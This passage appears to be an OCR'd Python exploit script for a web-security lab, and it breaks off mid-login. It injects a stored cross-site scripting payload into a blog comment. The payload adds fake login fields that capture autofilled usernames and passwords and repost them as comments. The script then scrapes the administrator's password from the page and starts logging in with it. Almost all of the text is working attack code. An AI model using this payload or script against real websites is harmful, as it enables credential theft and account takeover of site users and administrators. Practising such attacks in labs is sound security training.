 ```python

soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input', {'name' : 'csrf'})['value']

payload = """<input type="text" name="username"></input>
<input type="password" name="password" onchange="hax()"></input>
<script>
function hax(){
var token = document.getElementsByName('csrf')[0].value;
var username = document.getElementsByName('username')[0].value;
var password = document.getElementsByName('password')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 8);
data.append('comment', `${username}:${password}`);
data.append('name', 'cuong');
data.append('email', 'a@a.a')
data.append('website', 'http://a.com')

fetch('/post/comment',{
  method: 'POST',
  mode: 'no-cors',
  body : data,
});
}
</script>""";

data = {
    'comment': payload,
    'postId': '8',
    'name': 'cuong',
    'email': 'a@a.a',
    'website' : 'http://a.com',
    'csrf' : csrf,
}

response = session.post(
    url + "/post/comment",
    data=data,
    verify=False,
)

response = session.get(
    url + "/post?postId=8",
    verify=False,
)

pattern = 'administrator:'+r'\b\w{20}\b'
match = re.search(pattern, response.text).group()
username = match.split(':')[0]
password = match.split(':')[1]

response = session.get(
    url + "/login",
    verify=False,
)
soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input', {'name' : 'csrf'})['value']
data={
    'username' : username,
    'password' : password,
    'csrf' : csrf
```